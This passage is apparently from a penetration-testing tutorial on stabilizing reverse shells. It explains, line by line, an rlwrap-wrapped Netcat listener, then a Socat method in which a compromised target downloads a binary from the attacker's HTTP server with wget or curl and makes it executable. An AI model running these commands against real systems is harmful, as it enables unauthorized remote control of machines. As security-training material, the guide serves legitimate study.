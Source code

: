 ### 5.2 rlwrap Technique
- **What It Is**: Adds history, tab completion, and arrow keys to shells.
- **Setup**:
  ```bash
  sudo apt install rlwrap
  ```
  - **Line-by-Line**:
    - `sudo`: Runs with root privileges.
    - `apt install rlwrap`: Installs the `rlwrap` package on Debian-based systems (e.g., Kali).
- **Command**:
  ```bash
  rlwrap nc -lvnp 443
  ```
  - **Line-by-Line**:
    - `rlwrap`: Wraps the Netcat command to add history and completion.
    - `nc -lvnp 443`: Standard Netcat listener (see Section 4.1).
- **Stabilization** (Linux):
  - Background with `Ctrl+Z`.
  - Run:
    ```bash
    stty raw -echo; fg
    ```
    - **Line-by-Line**: See Python technique.
- **Notes**: Ideal for Windows shells, which are hard to stabilize otherwise.

### 5.3 Socat Technique (Linux Only)
- **What It Is**: Uses a Netcat shell to upload a Socat binary and create a stable TTY shell.
- **Steps**:
  1. Host Socat binary:
     ```bash
     sudo python3 -m http.server 80
     ```
     - **Line-by-Line**:
       - `sudo`: Runs with root privileges.
       - `python3`: Invokes Python 3.
       - `-m http.server`: Runs Python’s built-in HTTP server module.
       - `80`: Serves on port 80.
  2. In Netcat shell (target):
     ```bash
     wget 10.10.10.5/socat -O /tmp/socat; chmod +x /tmp/socat
     ```
     - **Line-by-Line**:
       - `wget 10.10.10.5/socat`: Downloads the Socat binary from the attacker’s server.
       - `-O /tmp/socat`: Saves it to `/tmp/socat`.
       - `;`: Separates commands.
       - `chmod +x /tmp/socat`: Makes the binary executable.
  3. Run stable Socat shell (see Section 4.2).
- **Troubleshooting**:
  - If `wget` fails, try `curl -o /tmp/socat http://10.10.10.5/socat`.
  - Ensure `/tmp` is writable.
